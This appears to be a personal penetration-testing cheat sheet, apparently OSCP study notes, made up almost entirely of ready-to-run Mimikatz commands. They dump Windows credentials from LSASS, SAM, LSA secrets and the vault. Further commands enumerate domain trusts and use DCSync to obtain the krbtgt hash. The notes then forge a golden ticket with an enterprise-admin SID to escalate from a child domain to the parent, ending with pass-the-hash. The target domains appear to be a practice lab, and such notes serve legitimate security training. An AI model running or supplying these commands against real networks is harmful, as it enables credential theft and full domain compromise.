 
```
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords /full" "lsadump::sam" "lsadump::secrets" exit >> mimi_oscp_essentials_101.txt
```
- essentials



```
.\mimikatz.exe "hostname" "token::whoami /full" "privilege::name SEDebug" "privilege::name SEImpersonate" "privilege::name SEGlobalCreate" "privilege::debug" "token::elevate" "token::elevate /domainadmin" "lsadump::lsa /inject" "lsadump::sam" "lsadump::secrets" "lsadump::cache" "sekurlsa::logonpasswords" "sekurlsa::minidump lsass.dmp" "lsadump::trust" "sekurlsa::tickets" "sekurlsa::wdigest" "net::user" "net::alias" "net::trust" "net::wsession" "sekurlsa::msv" "sekurlsa::credman" "vault::cred /patch" exit >> mimi_dump_all_153.txt
```
- Overkill, sometimes doesn't work


Forge golden ticket by abusing child>parent domain trust relationship of two domains to escalate to escalate to enterprise DA from regular DA
```
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```
- enumerate trust between multiple domains
```
nltest.exe /trusted_domains
```
- list trusted domains
- does not require transfering file to machine; can automatically run command as DA
transfer mimikatz.exe and run it, then
```
lsadump::dcsync /domain:lab.trusted.vl /all
```
- need krbtgt NTLM hash
```
lsadump::trust /patch
```
- need both Current domain: SID and Domain: SID, both listed right after the command at the top of the output. Ex:
	- S-1-5-21-2241985869-2159962460-1278545866
	- S-1-5-21-3576695518-347000760-3731839591
```
kerberos::golden /user:Administrator /krbtgt:c7a03c565c68c6fac5f8913fab576ebd /domain:lab.trusted.vl /sid:S-1-5-21-2241985869-2159962460-1278545866 /sids:S-1-5-21-3576695518-347000760-3731839591-519 /ptt
```
- forge gold ticket for enterprise DA
```
lsadump::dcsync /domain:trusted.vl /dc:trusteddc.trusted.vl /all
```
- find listed administrator NTLM hash and PTH
